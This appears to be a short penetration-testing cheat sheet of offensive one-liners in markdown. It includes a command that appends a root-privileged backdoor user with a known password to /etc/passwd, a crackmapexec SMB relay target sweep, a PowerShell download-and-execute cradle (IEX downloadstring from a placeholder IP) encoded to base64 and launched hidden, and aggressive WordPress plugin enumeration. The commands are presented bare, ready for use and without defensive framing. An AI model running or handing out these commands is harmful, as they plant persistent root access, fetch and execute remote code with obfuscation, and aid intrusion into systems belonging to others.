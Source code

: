 # Misc Snippets

## Linux

One line echo new user into `/etc/passwd`.

```bash
# Password: Password123
echo 'viper:$1$luDZJMtq$4ljcR6cSb41FraIUQIiQx/:0:0:viper:/home/viper:/bin/bash' >> /etc/passwd
```

## Generate Relay list

```
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets-to-relay.txt
```

## Spoof Checking

**SmartFense:** [https://www.smartfense.com/en-us/tools/spoofcheck/](https://www.smartfense.com/en-us/tools/spoofcheck/)

**Spoofcheck:** [https://github.com/BishopFox/spoofcheck](https://github.com/BishopFox/spoofcheck)

## PowerShell Encoded String

```powershell
$b64 = 'IEX ((new-object net.webclient).downloadstring("[IP]"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($b64))

# Execute
Powershell.exe -w -enc "[Base64 String]"

# From Linux
set b64 'IEX ((new-object net.webclient).downloadstring("[IP]"))'
echo -en $b64 | iconv -t UTF-16LE | base64 -w 0
```

## Wpscan

All plugins detectionb

```bash
wpscan --url http://<IP> -t 40 --detection-mode mixed --enumerate ap --plugins-detection aggressive 
```
